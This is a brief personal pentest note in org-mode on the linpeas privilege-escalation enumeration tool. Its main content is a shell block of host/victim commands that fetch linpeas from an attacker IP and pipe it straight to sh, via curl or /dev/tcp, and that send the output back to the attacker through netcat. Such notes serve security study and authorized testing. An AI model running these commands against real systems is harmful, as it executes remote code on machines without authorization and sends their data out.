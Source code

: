:PROPERTIES:
:ID:       33dff0d7-d2b6-4410-9334-e3b63aae2455
:END:
#+title: linpeas
#+hugo_base_dir:../
#+filetags: :linux:privesc:pentest:enumeration:



See carlospolop : [[https://github.com/carlospolop/PEASS-ng][PEASS-ng]]  [[https://book.hacktricks.xyz/][hacktricks]]



* Execution:
Run from memory and send back to attacker:
#+begin_src shell
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
#+end_src
